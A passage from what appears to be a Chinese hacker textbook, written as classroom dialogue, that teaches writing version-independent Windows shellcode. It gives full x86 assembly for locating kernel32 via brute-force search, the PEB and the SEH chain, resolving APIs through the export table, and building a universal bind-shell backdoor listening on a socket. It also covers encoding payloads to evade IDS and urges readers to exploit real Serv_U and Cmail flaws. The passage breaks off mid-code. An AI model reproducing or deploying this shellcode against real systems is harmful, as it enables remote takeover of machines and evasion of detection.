A：当然有了。比如，我们还可异或几个字节的 Key，比如取 Key 为 0x123456，这样来避免单字节 Key 的不足；也可动态使用随机的 Key，以进一步躲避 IDS。编码的算法你还可以进一步研究，想?2 牆5 出新的算法。

Q：怎样才能构思出编码的新算法呢？

A：一、基础要好；二、要有发散性的思维！

Q：怎样牢固知识基础，提高编程能力呢？

A：如果是大学生，多参加 ACM / ICPC 吧！然后经过努力，通过选拔，进入 ACM / ICPC 的学校集训队。和优秀的人在一起才能更优秀。

Q：XP 和 Win2000 相比，除了 SEH 的处理机制不同外，还有那些对溢出利用来说比较重要的改变呢？

A：一些特殊的程序，Win2000 下可直接把地址覆盖成 ShellCode 的地址，从而直接跳转过去利用；而 XP 不允许执行栈中的代码。所以利用时，要覆盖写入另一个跳转地址，再返回栈中。课堂上对堆栈溢出利用的所有讲解，都是使用的这种方法，所以对 Win2000 和 XP 都适用。

Q：使用搜索法时，如果搜索的标志恰好在内存中有重复的值，会导致搜索失败吗？

A：如果内存中正好有重复的标志值，当然有可能失败。如果那个标志很简单，比如用一个 0x90909090，就很有可能找到其他地方去；但如果用一个奇怪的数据（如你的名字），那多半没有重复，可以正确的定位。

Q：还有其他需要编码的程序可以实际利用吗？

A：很多啊！Serv_U 漏洞、Cmail 漏洞、Cproxy 漏洞等，自己根据漏洞公告，用已学的知识实际利用一下吧！

# 第六章 ShellCode 编写高级技术

# 第六章 ShellCode 编写高级技术

天气渐渐变冷了，而今天，是特别的冷。老师走进教室，跺跺脚说：“好冷啊！”

“是啊！冬天来了。”台下的同学呼出的气都是白雾，很多人都带上了手套。

“大家注意身体啊！”老师打开了教学设备，“大家下去有没有测试前面学习的内容啊？”

“当然有啊！”宇强回答道，“在微软精英们的打击下，我们都倍感差距。终日抓紧，不敢有丝毫懈怠啊！”

“呵呵！有差距感就好。大家在实践的时候，发下了什么问题没有？“

“有啊！我发现外面的 ShellCode 据称都是版本通用的，我测试了一下，也的确能用。它们是怎么实现的呢？”古风说。

”这个问题问得好。”老师表扬道。

玉波摸摸肚子，说到：“我觉得提取 ShellCode 时，通过抄机器码太累了，而且觉得实在没必要做如此机械的工作。”

“嗯！是啊！”大家都表示赞同。

“哦！”宇强忽然想起来了，说道：“我还想知道那些漏洞是怎么发现的呢！希望自己能掌握、发现位置漏洞的方法，并能利用漏洞！“

老师说：“发现未知的漏洞……这个难度很大啊！”

“哇！不会吧？”大家都一脸的不悦。

”呵呵！但也有一些技术和方法了，大家还是可以讨论一下。好！我明白大家想知道什么了。首先，我们来看看 ShellCode 编写和提取的高级技巧吧！”

# 6.1 通用 ShellCode 的编写

## 6.1 通用 ShellCode 的编写

“现在外面使用的 ShellCode，都是各版本通用的，”老师介绍道，“这是通用攻击程序编写的必要基础。可以说，通用的 ShellCode＋通用的跳转地址 ＝ 通用的 Exploit。”

“通用的跳转地址我们已经有了，那通用的 ShellCode 时怎么来的呢？ ”大家迫不及待的说，“我们好想知道啊！”

“大家有动力就好，我们一起来看看 ShellCode 通用性的解决过程吧！在这个过程中，大家可切实体会到：技术是一代接一代推动发展的！”

# 6.1.1 思路——动态定位函数的地址

### 6.1.1 思路——动态定位函数的地址

“ShellCode 的执行过程就是调用函数的过程。”老师说道，“Windows 下调用函数分为两步，一是参数入栈；二是 CALL 函数地址。”

“那大家想想，我们前面写的 ShellCode，各系统版本间不能混用，其原因是出在哪里呢？”

“原因……原因出于版本不同！”玉波回答道。

“晕！拿究竟是参数入栈不同，还是调用函数地址不同呢？”老师提醒大家。

“参数入栈部分看起来是一样的；拿应该时各个版本下函数的地址不同吧！”宇强分析道。

“对！系统不同，同一个函数的地址就不同。比如 Windows 2000 和 XP，或者中文版 XP 和英文版 XP，LoadLibrary 函数的地址都不同；而且，同样的系统、同样的语言版本，SP 补丁不同，函数的地址也不同。”

“哦，ShellCode 的通用性就是要解决函数地址的通用性吧！”

“非常正确！”

“难道每个函数都存在各版本通用的隐藏地址？我们直接调用隐藏地址就行了？”玉波想起当年打 C&C 的隐藏关卡。

“这个我不知道，可能要问问比尔.盖茨才知道哦！”老师笑着说，“但系统可不像游戏。除了偶尔存在象 tlEnterCriticalSection 函数指针外，其他函数的地址都绝对不同！”

“那怎么完成通用的呢？真是‘Mission Impossible’啊！”大家苦苦思索。

“我提示一下，在 ShellCode 的编写中，我们曾用过 GetProcAddress 来获得其他函数的地址……”

“对啊！老师真是汤姆.克鲁斯啊！”大家顿觉山穷水尽疑无路，柳暗花明又一村，“我们不使用固定的函数地址，而是在 ShellCode 中先用 GetProcAddress 获得函数的地址——获得当时所在系统上的地址，然后在调用它！”

“呵呵？别人都说我是三重刘德华呢！”老师开玩笑的说，“很好！但除了 GetProcAddress 外，还需要知道 LoadLibrary 的地址；然后我们就可利用这两个函数来动态获得其他函数的地址，并存起来。以后，要调用函数时，就使用保存起来的地址，从而完成具有通用性的 ShellCode！”

“哦，明白了！思路应该时这样。我们动态定位函数的地址再调用。”学生们画出了图 6－1 的示意图。



“对！就是这样！”老师看了看，满意的说。

“但如何获得 GetProcAddress 和 LoadLibrary 的地址呢？”老师又问道。

大家又愣住了，“是啊，怎么获得呢？好像这两个函数的地址并没有宇宙通用版啊！”

“大家能想到这里，很不错！这也是早期 ShellCode 卡住的地方。”老师说道，“当人们对宇宙、对地球、对 Windows 系统不断的深入认识后，终于有了解决的方法。”

“哦？这么厉害，什么方法？”

“就是利用 Windows 的系统结构来获得 GetProcAddress 和 LoadLibrary 函数的地址。”

# 6.1.2 方法一、野蛮的暴力搜索

### 6.1.2 方法一、野蛮的暴力搜索

“在国内，首先想出方法的是 guange。”老师说道。

“哦！又是他啊！”大家想起在编码时讲过他的方法。

“他在很早以前，就对 Windows 的系统技术炉火纯青。不仅编码，动态定位，而且在 ShellCode 高级功能、高级提取方面都有很深的造诣，但……鲜有详细的文档记录。现在他也把很多东西都忘了吧！我们只能通过他的程序临摹一招半式了。”

“哦！”

“所以，我给你们上的课，都是在做扫地的工作，也就是‘扫地僧’！”

“哇！做‘扫地僧’好啊，是金庸大侠手下武功最高的人物了！”小倩一副很羡慕的样子。

“汗～是啊！为了让像大家一样的初学者引起兴趣，尽快入门！我会担当起‘扫地僧’责任的。”老师说道。

“多谢老师！我们也会努力学习的，不会辜负老师的期望。”教室里大家都纷纷表态。

“别谢我什么，要谢就谢《Q 版黑客》系列图书吧！谢谢他们全力的支持，才使这门课得以顺利开展。

”好了，我们来看看 yuange 提出的方法。”老师又回到了正题。

“yuange 提出的思路就是：SHELLCODE 只依靠 GetProcAddress 和 LoadLibraryA 这两个函数；而 LoadLibraryA 是在系统库 KERNEL32.DLL 里面的，也可以使用 GetProcAddress 得到，所以我们只需知道 GetProcAddress 的地址就可以了。

“哦！是啊！但 GetProcAddress 的地址又怎么获得呢？这是关键啊!”大家着急的说。

“呵呵，yuange 说了（怎么像黑社会的……），kernel32.dll 一般都会被加载，所以解决办法就是在内存里查找 kernel32.dll 这个系统库和 GetprocAddress 函数的地址。”

“查找？”

“俗称就是暴力搜索！”

“啊！暴力搜索！好恐怖啊！”大家紧张的的说。

“其实，只要了解了 Windows 的系统结构就不难。袁哥的程序，是从 0x77e0000 或 0xbff00000 开始搜索，搜索到 MZ 和 PE 标志时，就表示是 kernel32.dll 的开始地方。”

小知识：PE 结构

PE 的意思就是 Portable Executable（可移植的执行体）。它是 Win32 环境自身所带的执行体文件格式。所有 Win32 执行体都使用 PE 文件格式，包括 NT 的内核模式驱动程序。

PE 文件结构以一个 IMAGE_DOS_HEADER 结构开始，所以开头是一个简单的 DOS MZ header，紧随 MZ header 之后的是 DOS stub。紧接着 DOS stub 的是 PE header，所以可以根据 MZ 和 PE 标志来判断一个程序是否是可执行程序，其详细结构如下：

```
typedef struct _IMAGE_DOS_HEADER {?? 
    WORD e_magic; ;DOS 可执行文件标记“MZ”
    WORD e_cblp;
    WORD e_cp;
    WORD e_crlc;
    WORD e_cparhdr;
    WORD e_minalloc;
    WORD e_maxalloc;
    WORD e_ss;
    WORD e_sp;
    WORD e_csum;
    WORD e_ip; 
    WORD e_cs;
    WORD e_lfarlc;
    WORD e_ovno;
    WORD e_res[4];
    WORD e_oemid;
    WORD e_oeminfo;
    WORD e_res2[10]; 
    LONG e_lfanew; ;指向 PE 文件头"PE",0,0
} IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```

“找到 kernel32 后，再搜索函数的引出表，找到 LoadLibrary 的函数名和 LoadLibrary 函数对应的地址就完成了搜索。”

“我把 yange 的程序加上了一些注释，大家下来可参考 SearchByYuange.cpp（光盘有收录），这里就不作详细解释了。”老师说道。

“啊？为什么不解释呢？还不大懂呢！”

“呵呵，第一是因为代码复杂难懂，我这个‘扫地僧’要解释清楚也很困难；第二是从 0x77e00000 或 0xbff00000 开始搜索，已经不完全通用了；第三是技术不断进步，后来有了更为优雅、更为完美的方法。而且后面讲的方法和 yuange 的方法大部分是一样的，我们学习之后，也就都清楚了。”

# 6.1.3 方法二、PEB 获取 GetProcAddrees 函数地址

### 6.1.3 方法二、PEB 获取 GetProcAddrees 函数地址

“我们还是来‘独览大略’吧！”老师说道，“斗转星移，随着时间的发展，有了更简单、优雅的搜索方法。”

“哦，是谁最先提出来的呢？”

“这个……我也不知道，估计最早提出来的时候，我连电脑都不知为何物呢！呵呵！”老师说，“我看国内倒是 jneo 和 scz 都有过详细的分析。这种方法还是分为两部分，第一部分是获得 kerner32.dll 的基址；第二部分是动态获得函数的地址。”

“哦！yange 获得 kerner32.dll 基址的方法是暴力搜索吧？”古风问道。

“对！而 jneo 和 scz 则使用了改进的方法，利用 PEB 结构来获得 kerner32.dll 的基址。”

“PEB，进程环境块？好像以前介绍过。”大家隐约有点印象。

“是啊，在堆溢出利用时，我们介绍过覆盖 PEB 里面的 RtlEnterCriticalSection 函数指针，大家可翻翻以前的笔记。而这里，利用 PEB 获得 kernel32.dll 的原理如下：”

老师在黑板上写了下来。

1.fs 寄存器指向 TEB 结构

2.在 TEB+0x30 地方指向 PEB 结构

3.在 PEB+0x0C 地方指向 PEB_LDR_DATA 结构

4.在 PEB_LDR_DATA+0x1C 地方就是一些动态连接库地址了，如第一个指向 ntdll.dll，第二个就是 kernel32.dll 的地址。

“其结构示意图如图 6－2。”



“老师，为什么给出的偏移量正好指向想要的结构呢？”玉波问道。

“因为……比尔.盖茨当初就是这么设计来着。”

“那比尔.盖茨为什么要这样设计呢？”玉波又问。

“那可能是由他生活的环境和个人性格造就的吧！”

“哦？是什么环境和性格造就了他这么设计呢？”玉波要打破沙锅问到底了。

“噢！那是美国的诞生和文化造就了那样的环境和性格呀！好了，要完全解决这个问题，我们就只有使用回溯法，回溯到亿万年前，宇宙大爆炸的时候，可能某个尘埃的偏移加速度的值，导致了今天有这么一位比尔.盖茨；可能那个尘埃的某次碰撞变向，导致了比尔.盖茨采用这样的结构设计。”

“……”大家无语了。

“呵呵，人类一思考，上帝就发笑。有很多事情，我们是无法探其根源的，只能接受！就如同我们不知道，也不用去知道，在大爆炸前的宇宙是什么样的一样，我们只能认为时间是从那一刻才开始的。”

“我们还是看看更关心的东西吧！利用 PEB 查找 kernerl32 地址的汇编实现吧！以下是汇编实现。”

```
mov eax, fs:0x30 ;PEB 的地址
mov eax, [eax + 0x0c] ;Ldr 的地址
mov esi, [eax + 0x1c] ;Flink 地址
lodsd 
mov eax, [eax + 0x08] ;eax 就是 kernel32.dll 的地址
```

“很优雅吧？呵呵！”老师问道。

“哇！和暴力搜索相比，简直是天壤之别啊！”

“呵呵！程序设计真的是门艺术啊！顺便说一下，在刚刚结束的 29 届 ACM 国际大学生程序设计竞赛亚洲赛区预赛北京赛的比赛中，上海交大以五道的成绩获得冠军！我们学校队过了三道题，获得铜奖。”

老师有点可惜的说：“这次很有希望啊，就差最后一点的突破了。大家多努力啊！你们是八九点钟的太阳！以后的希望就在你们的身上了。”

“如果能够代表学校去北京参加亚洲预赛的话，太精彩了！”大家的气势被带动了起来。

宇强心想，自己在大学生涯中一定要不断努力，努力，再努力！大学生活充满阳光，自己也需要充满激情和挑战；希望在自己毕业时，能对这四年青葱岁月无悔，还能像现在这样，对未来充满好奇和梦想！

“好，我们回到程序中，来测试一下。”老师的话把宇强拉了回来，“在 VC 中嵌入这几句汇编，然后调试执行，当执行完 mov eax, [eax + 0x08] 时，可以看到 eax 中保存了我们正确的 kernel32.dll 的地址——XP 系统 SP0 下为 0x77E40000。如图 6－3。”


“哇！EAX 真的是 77E40000 啊！实在太方便了。”

“嗯，我们继续，”老师一口气接着说道，“第二部分就是要动态获得函数地址了。”

“也是与系统结构相关吗？”

“当然，完全是 Windows 系统的结构让我们可以使用这种方法，如果拿到 Linux 下，就完全行不通了。”

“动态获得函数地址的部分和 yuange 使用的方法是一样的。”老师说道，“就是利用 Kernel32.dll 中的引出表！”

“每个 dll 都有引出表，这样，外部程序可以调用 dll 里实现的函数，而不必关心实现的细节。”老师接着说，“而 GetProcAddress 是在 kernel32.dll 里实现的，所以我们可通过查找 kernel32.dll 的引出表来找到 GetProcAddress 函数。”

“查找引出表？什么意思？”

“嗯，这就要解释一下引出表和我们找地址的过程了。有点麻烦，大家可要集中点精神听啊！”

“首先，引出表的结构如下：”

```
Typedef struct _IMAGE_EXPORT_DIRECTORY
{
    Characteristics; 4
    TimeDateStamp 4
    MajorVersion 2
　　MinorVersion 2
　　Name 4 模块名字
　　Base 4 基数，加上序数就是函数地址数组的索引值
　　NumberOfFunctions 4
    NumberOfNames 4
    AddressOfFunctions 4 指向函数地址数组
　　AddressOfNames 4 函数名字的指针地址
　　AddressOfNameOrdinal 4 指向输出序列号数组
}
```

每个字段的解释如表 1。


“不用去记它，记下来也没用。我们只关心最后几个字段，如图 6－4。”

　　

“给大家解释一下图上的某些字段涵义：”

图 6－4 中的字段涵义：

NumberOfFunctions 字段：为 AddressOfFunctions 指向的函数地址数组的个数，此例中，这里是 3；

NumberOfName 字段：为 AddressOfNames 指向的函数名称数组的个数，这里是 2；

AddressOfFunctions 字段：指向模块中所有函数地址的数组；

AddressOfNames 字段：指向模块中所有函数名称的数组；

AddressOfNameOrdinals 字段：指向 AddressOfNames 数组中函数对应序数的数组。

“我们查找函数地址时，先在函数名称数组中找到需要的函数名；然后在函数序号数组中得到对应的函数序号；最后根据这个序号，在函数地址数组中得到对应的地址值。”

“好抽象啊！头晕啊！老师，给个例子吧！”玉波嚷道。

“好，比如我们在那个引出表中查找 MyFunc3 函数的地址。”

“先从 AddressOfName 开始，依次在函数名数组中查找与 MyFunc3 相同的项，从而得到 MyFunc3 在函数名数组中是第几个函数。在图 6－4 的例子中，MyFunc3 是第二个函数。”

“然后，我们从 AddressOfNameOrdinals 开始，在函数序号数组中查找 MyFunc3 函数对应的序号。在函数序号数组中，第二个函数序号数组的序号值是 3。”

“最后，根据序号 3，从 AddressOfFunctions 开始的函数地址数组中查找 MyFunc3 函数的地址。在函数地址数组中，第 3 项的值是 0x400197。这样，我们就得到了 MyFunc3 函数的地址——0x400197。”

“哦，是这样啊！”

“但……输出表在哪儿呢？”一直没说话的宇强问道。

“呵呵，知道了 kerner32.dll 的基地址后，其 PE 头部偏移在 kerner32.dll 基址＋0x3C 的地方；而输出表的位置在 kerner32.dll 基地址+PE 头部地址+0x78 的地方。”

“而 kerner32.dll 的基地址我们刚刚学会了：从 PEB 中获得。什么预备工作都完成了，我们来看看搜索函数地址流程吧！”老师说道。

a. 通过 TEB/PEB 获取 kernel32.dll 基址

b. 在(基址+0x3c)处获取 e_lfanewc 就是 PE 标志。

c. 在(基址+e_lfanew+0x78)处获取引出表地址(后面为描述方便简称 export)

d. 在(基址+export+0x1c)处获取 AddressOfFunctions、AddressOfNames、AddressOfNameOrdinalse。

e. 搜索 AddressOfNames，确定“GetProcAddress”所对应的 index

f. index = AddressOfNameOrdinalse [ index ];

g. 函数地址 = AddressOfFunctions [ index ];

“比如，我们想查找 GetProcAddress 的地址，就在函数名称数组中，搜索 GetProcAddress 的名称；找到后根据编号，在序号数组中，得到它对应的序号值；最后根据序号值，在地址数组中，提取出它的地址。其汇编代码如下，并给出了详细的解释。”

```
 __asm
{
    mov ebp, 0x77E40000 ;kernel32.dll 基址
    mov eax, [ebp+3Ch] ;eax = PE 首部
    mov edx,[ebp+eax+78h]
    add edx,ebp ;edx = 引出表地址
    mov ecx , [edx+18h] ;ecx = 输出函数的个数
    mov ebx,[edx+20h] 
    add ebx, ebp ;ebx ＝函数名地址，AddressOfName 
    search:
    dec ecx
    mov esi,[ebx+ecx*4] 
    add esi,ebp ;依次找每个函数名称
    ;GetProcAddress
    mov eax,0x50746547
    cmp [esi], eax; 'PteG'
    jne search
    mov eax,0x41636f72
    cmp [esi+4],eax; 'Acor'
    jne search 
    ;如果是 GetProcA，表示找到了 
    mov ebx,[edx+24h]
    add ebx,ebp ;ebx = 序号数组地址,AddressOf
    mov cx,[ebx+ecx*2] ;ecx = 计算出的序号值
    mov ebx,[edx+1Ch]
    add ebx,ebp ;ebx＝函数地址的起始位置，AddressOfFunction
    mov eax,[ebx+ecx*4] 
    add eax,ebp ;利用序号值，得到出 GetProcAddress 的地址
}
```

“我们来测试一下吧！在 VC 中嵌入汇编，并单步调试，执行到最后一句时，可以发现 EAX 是 0x77E5A5FD，即得到了我们系统 XP SP0 的 GetProcAddress 函数的地址：0x77E5A5FD，如图 6－5。”

　　

“我们直接获得地址看看！如图 6－6，EAX 果然也是一样，XP SP0 的 GetProcAddress 函数地址就是 0x77E5A5FD！”


“哇！太妙了！”大家说道。

“嗯，我们把获得 Kernel32.dll 地址部分和获得函数地址部分合起来，就可动态得到 GetProcAddress 函数的地址，而且与系统版本是无关的！”

“在动态得到了 GetProcAddress 函数的地址后，我们再使用它来动态获得其他函数的地址，这样生成的 ShellCode 就是通用的了。我们结合实际例子来应用它吧！”

# 6.1.4 通用 ShellCode 的编写——监听后门

### 6.1.4 通用 ShellCode 的编写——监听后门

“我们把以前写的双管道后门 ShellCode 改成各系统通用的版本吧！”老师说道，“我们用刚才的思路，在获得了 GetProcAddress 函数的地址后，再调用 GetProcAddress，这样获得所有要使用的函数地址后，存起来就可以了。”

大家都点点头。

老师喝了口水，说道：“看看以前的那个 ShellCode，一开始就把各函数在 XP SP0 下的地址存放了起来，所以不通用。我们修改时，只需加上一段动态获得各函数地址的代码，然后再存放就可以了。”

“具体来说，原来的实现是这样的，直接存放地址值。”

```
//原来的实现，把要用到的函数地址存起来——以下都是 XP SP0
mov eax,0x77e5727a
mov [ebp+4], eax; CreatePipe
mov eax,0x77e41bb8
mov [ebp+8], eax; CreateProcessA
mov eax,0x77e97624
mov [ebp+12], eax; PeekNamedPipe 
mov eax,0x77e59d8c
mov [ebp+16], eax; WriteFile
mov eax,0x77e58b82
mov [ebp+20], eax; ReadFile
mov eax,0x77e55cb5
mov [ebp+24], eax; ExitProcess
mov eax,0x71a241da
mov [ebp+28], eax; WSAStartup
mov eax,0x71a23c22
mov [ebp+32], eax; socket
mov eax,0x71a23ece
mov [ebp+36], eax; bind
mov eax,0x71a25de2
mov [ebp+40], eax; listen
mov eax,0x71a2868d
mov [ebp+44], eax; accept
mov eax,0x71a21af4
mov [ebp+48], eax; send
mov eax,0x71a25690
mov [ebp+52], eax; recv
```

“而现在，我们首先加上一段前面的动态获取 GetProcAddress 函数地址的代码。”

```
mov eax, fs:0x30 ;PEB
mov eax, [eax + 0x0c] ;Ldr
mov esi, [eax + 0x1c] ;Flink
lodsd 
mov edi, [eax + 0x08] ;edi 就是 kernel32.dll 的地址
mov eax, [edi+3Ch] ;eax = PE 首部
mov edx,[edi+eax+78h]
add edx,edi ;edx = 输出表地址
mov ecx,[edx+18h] ;ecx = 输出函数的个数
mov ebx,[edx+20h] 
add ebx,edi ;ebx ＝函数名地址,AddressOfName 
search:
dec ecx
mov esi,[ebx+ecx*4] 
add esi,edi ;依次找每个函数名称
;GetProcAddress
mov eax,0x50746547
cmp [esi], eax; 'PteG'
jne search
mov eax,0x41636f72
cmp [esi+4],eax; 'Acor'
jne search 
;如果是 GetProcA，表示找到了 
mov ebx,[edx+24h]
add ebx,edi ;ebx = 索引号地址，AddressOf
mov cx,[ebx+ecx*2] ;ecx = 计算出的索引号值
mov ebx,[edx+1Ch]
add ebx,edi ;ebx＝函数地址的起始位置,AddressOfFunction
mov eax,[ebx+ecx*4] 
add eax,edi ;利用索引值，计算出 GetProcAddress 的地址
```

“然后，依次动态获得 CreatePipe、CreateProcessA 等函数的地址，替换直接存放的值。比如，找 CreatePipe 函数地址的代码如下：”

```
push dword ptr 0x00006570
push dword ptr 0x69506574
push dword ptr 0x61657243
push esp
push edi 
call [ebp+76]
mov [ebp+4], eax; CreatePipe
```

老师解释道：“相当于执行 GetProcAddress（kernel32 基址，”CreatePipe”）。还是一样，先把参数 CreatePipe 字符串地址和 kernel32 的基址值依次入栈，然后 call GetProcAddress 函数的地址（我们之前把它存在 ebp+76 的地方），所以 call [ebp+76] 就执行了 GetProcAddress (kernel32 基址，”CreatePipe”) 这句话。Eax 为返回值——CreatePipe 函数的地址，我们把它存在对应的 ebp+4 的地方。”

“哦！”同学们明白了，“后面的函数也是这样获取？”

“是的！”老师说到，“但要注意，像 Socket 一类套接字函数的地址，不是在 kernel32.dll 中，而是在 Ws2_32.dll 中！所以，我们要先 LoadLibrary(“Ws2_32.dll”) 获得 Ws2_32.dl 的基址，再用 GetProcAddress (Ws2_32.dl 基址,” socket”) 来获取类似套接字函数的地址。”

“具体说来，就是要加上如下获取函数地址的代码。”

```
push ebp;
sub esp, 100; 
mov ebp,esp;
mov eax, fs:0x30 ;PEB
mov eax, [eax + 0x0c] ;Ldr
mov esi, [eax + 0x1c] ;Flink
lodsd 
mov edi, [eax + 0x08] ;edi 就是 kernel32.dll 的地址
mov eax, [edi+3Ch] ;eax = PE 首部
mov edx,[edi+eax+78h]
add edx,edi ;edx = 输出表地址
mov ecx,[edx+18h] ;ecx = 输出函数的个数
mov ebx,[edx+20h] 
add ebx,edi ;ebx ＝函数名地址,AddressOfName 
search:
dec ecx
mov esi,[ebx+ecx*4] 
add esi,edi ;依次找每个函数名称
;GetProcAddress
mov eax,0x50746547
cmp [esi], eax; 'PteG'
jne search
mov eax,0x41636f72
cmp [esi+4],eax; 'Acor'
jne search 
;如果是 GetProcA，表示找到了 
mov ebx,[edx+24h]
add ebx,edi ;ebx = 索引号地址,AddressOf
mov cx,[ebx+ecx*2] ;ecx = 计算出的索引号值
mov ebx,[edx+1Ch]
add ebx,edi ;ebx＝函数地址的起始位置，AddressOfFunction
mov eax,[ebx+ecx*4] 
add eax,edi ;利用索引值，计算出 GetProcAddress 的地址
mov [ebp+76], eax ;把 GetProcAddress 的地址存在 ebp+76 中
push 0x0
push dword ptr 0x41797261
push dword ptr 0x7262694c
push dword ptr 0x64616f4c
push esp
push edi 
call [ebp+76]
mov [ebp+80], eax; LoadLibraryA ;把 LoadLibraryA 的地址存在 ebp＋80 中
push dword ptr 0x00006570
push dword ptr 0x69506574
push dword ptr 0x61657243
push esp
push edi 
call [ebp+76]
mov [ebp+4], eax; CreatePipe 0x00006570 69506574 61657243
push dword ptr 0x00004173
push dword ptr 0x7365636f
push dword ptr 0x72506574
push dword ptr 0x61657243
push esp
push edi
call [ebp+76]
mov [ebp+8], eax; CreateProcessA 0x4173 7365636f 72506574 61657243
push dword ptr 0x00000065
push dword ptr 0x70695064
push dword ptr 0x656d614e
push dword ptr 0x6b656550
push esp
push edi
call [ebp+76]
mov [ebp+12], eax; PeekNamedPipe 0x00000065 70695064 656d614e 6b656550
push dword ptr 0x00000065
push dword ptr 0x6c694665
push dword ptr 0x74697257
push esp
push edi
call [ebp+76]
mov [ebp+16], eax; WriteFile 0x00000065 0x6c694665 0x74697257
push dword ptr 0
push dword ptr 0x656c6946
push dword ptr 0x64616552 
push esp
push edi
call [ebp+76]
mov [ebp+20], eax; ReadFile 
push dword ptr 0x00737365
push dword ptr 0x636f7250 
push dword ptr 0x74697845
push esp
push edi
call [ebp+76]
mov [ebp+24], eax; ExitProcess 0x00737365 0x636f7250 0x74697845
push dword ptr 0x00003233
push dword ptr 0x5f327357
push esp
call [ebp+80] ;LoadLibrary(Ws2_32) 0x00003233 5f327357
mov edi, eax 
push dword ptr 0x00007075
push dword ptr 0x74726174
push dword ptr 0x53415357
push esp
push edi
call [ebp+76]
mov [ebp+28], eax; WSAStartup 0x00007075 0x74726174 0x53415357
push dword ptr 0x00007465
push dword ptr 0x6b636f73 
push esp
push edi
call [ebp+76]
mov [ebp+32], eax; socket 0x00007465 0x6b636f73
push dword ptr 0
push dword ptr 0x646e6962 
push esp
push edi
call [ebp+76]
mov [ebp+36], eax; bind 0x646e6962
push dword ptr 0x00006e65
push dword ptr 0x7473696c
push esp
push edi
call [ebp+76]
mov [ebp+40], eax; listen 0x00006e65 0x7473696c
push dword ptr 0x00007470
push dword ptr 0x65636361 
push esp
push edi
call [ebp+76]
mov [ebp+44], eax; accept 0x00007470 0x65636361
push 0
push dword ptr 0x646e6573 
push esp
push edi
call [ebp+76]
mov [ebp+48], eax; send 0x646e6573
push 0
push dword ptr 0x76636572 
push esp
push edi
call [ebp+76]
mov [ebp+52], eax; recv 0x76636572
mov eax,0x0
mov [ebp+56],0
mov [ebp+60],0
mov [ebp+64],0
mov [ebp+68],0
mov [ebp+72],0
LWSAStartup:
```

“动态获取每个函数的地址后，剩下的代码就完全不用改变。我们把它合起来后，得到 Pipe2AllVersionAsm.cpp（光盘有收录）。再测试一下，果然成功了！如图 6－7。”


“欢迎大家来到——宇宙通用版！”老师说道。

“哇！太 Cool 了！”教室里一阵欢腾，把中国队 7:0 都没有出线的悲伤抛在了脑后。

“接下来大家应该知道做什么了吧？”老师笑道。

“啊？做什么呢？” 玉波装糊涂的问道。

“提取 ShellCode 啊！”老师可一点儿不含糊。

“哇！这么长的代码，好可怕啊！”连一向勤奋的古风都受不了一句句抄写的“折磨”，“有没有简单点的方法啊？”

“嗯，”老师打量了一下代码说道，“是有点长……反正大家的思路都清楚了，再抄也没必要了。”

“就是啊！”台下齐声说道。

“好，那这次就先别提取了，留在我们讲 ShellCode 提取技巧时再说吧！我们继续看其他的方法。”

“好啊！”大家不用做单调的苦力活，高兴 ing……

# 6.1.5 方法三、SEH 获得 kernel 基址

### 6.1.5 方法三、SEH 获得 kernel 基址

“海纳百川，有容乃大！”老师说道，“我们再看看其他动态获得函数地址的方法吧！大家可以了解各种方法的优劣，在不同的时候选用不同的方法。”

“嗯，好的！”

“还有个比较有名的方法，是通过 SEH 异常处理链来获得 Kernel32.dll 的基址，再采用引出表的方法，获取函数的地址。”

“哦？怎么通过 SEH 获得 Kernel32.dll 的地址呢？”大家感兴趣的问道。

“呵呵！前面大家已经接触过了默认异常处理函数——UnhandledExceptionFilter，还记得它吗？”

“当然记得，在堆溢出利用时，我们一般都是通过覆盖这个默认异常处理函数指针来获得控制权的。”

“对，这里我要说的是，UnhandledExceptionFilter 指针是在异常链的最后，它的上一个值是指向下一个处理点的地址。因为后面没有异常处理点了，所以应该是 0xFFFFFFFF。如图 6－8。”


根据这个原理，我们可以搜索异常链，得到 UnhandledExceptionFilter 的地址，方法和代码如下：”

```
mov esi,fs:0
lodsd
GetExeceptionFilter:
cmp [eax],0xffffffff
je GetedExeceptionFilter //如果到达最后一个节点
mov eax,[eax] //否则往后遍历,一直到最后一个节点
jmp GetExeceptionFilter
GetedExeceptionFilter:
mov eax, [eax+4]
```

“测试一下，最后一句执行时，得到我们的 UnhandledExceptionFilter 地址为 0x77E7BB86。如图 6－9 中的 EAX 值。”

　　

“嗯，不错不错！这下我们知道了 UnhandledExceptionFilter 函数的地址了，但和 Kernerl32 的基地址有什么关系吗？”古风问道。

“不要急嘛！听我分析一下，UnhandledExceptionFilter 函数是 Kernel32.dll 里面的函数，那函数的地址必然是在 Kernel32 的地址空间内。我们就从 UnhandledExceptionFilter 函数的地址往上找，找到开头的地方，自然就是 Kerner32 的基地址了。”

“哇！对啊！”

“Kerner32 的开始标志是 MZ 和 PE，而且因为系统分配某个空间时，总要从一个分配粒度的边界开始，在 Windows 下，这个粒度是 64KB。所以我们搜索时，可以按照 64kb 递减往低地址搜索，当到了 MZ 和 PE 标志时，就找到了 Kernel32 的基地址。实现代码如下：”

```
FindMZ:
and eax,0xffff0000 //64k 对齐特征加快查找速度
cmp word ptr [eax],'ZM' //根据 PE 可执行文件特征查找 KERNEL32.DLL 的基址
jne MoveUp
